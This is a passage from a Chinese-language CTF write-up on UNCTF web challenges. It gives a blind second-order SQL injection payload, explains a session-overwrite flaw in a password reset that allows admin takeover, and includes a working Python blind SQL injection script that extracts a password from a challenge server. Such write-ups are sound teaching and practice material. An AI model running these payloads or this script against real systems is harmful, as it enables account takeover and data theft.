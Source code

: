然后写一个自动化脚本。不断地注册，登录，改密码，然后根据回显按位爆破库、表即可

最终的payload：”admin’ and ascii(substr((select * from fl4g),%d,1))=%d###vanish”%(i,j)

[![](https://p1.ssl.qhimg.com/t0140ff12ae8dcf0041.png)](https://p1.ssl.qhimg.com/t0140ff12ae8dcf0041.png)

得到flag：UNCTF`{`585ae8df50433972bb6ebd76e3ebd9f4`}`（不知道为啥，开头有时候会缺）

### <a name="header-n48"></a>NSB Reset Password

注册-&gt;改密码：发验证码-&gt;重置密码

三个包抓过来，发现sessionID都没有变动过。

试着猜想这个改密码的逻辑：当我给自己的账户发邮件，然后输入验证码，验证通过后，这个sessionID就获得了更改密码的权利，但是是更改谁的密码呢？账户的信息想必是存在sessionID里的。

但经过测验，无论是给admin发邮件，还是给自己发邮件，sessionID都没有变过。那么，显然sessionID里的储存的账户信息的那部分是可以被覆盖的，所以解题流程：

先注册-&gt;更改密码：发送验证码-&gt;到重置密码的界面，此时再开一个窗口，发送更改admin密码的邮件（sessionID里的用户被覆盖为admin），然后又回去，更改密码（此时更改的就是sessionID里的账户，即admin的密码），然后用自己更改的密码登录admin账户即可获flag

[![](https://p5.ssl.qhimg.com/t01ba8c30adb43d2d38.png)](https://p5.ssl.qhimg.com/t01ba8c30adb43d2d38.png)

flag：flag`{`175f3098f80735ddfdfbd4588f6b1082`}`

### <a name="header-n56"></a>easy_admin

很容易发现在/index.php?file=forget这里存在注入

fuzz后发现过滤了and select where。。。

然后卡了好久不知道怎么查admin的密码，最后索性直接 password （bugku有一道过滤很严的题就是这样bypass，）

exp：

```
import requests

url = "http://101.71.29.5:10045/index.php?file=forget"

r = requests.Session()

password=""
for i in range(1,40):
    for j in range(ord('0'),ord('`}`')):
        data = `{`
            "username":"-1'or ascii(substr((password),%d,1))=%d#"%(i,j)
        `}`

        res = r.post(url, data=data)
        #print res.text
        if "ok reset password" in res.text:
            password = password + chr(j)
            print password
            break
```
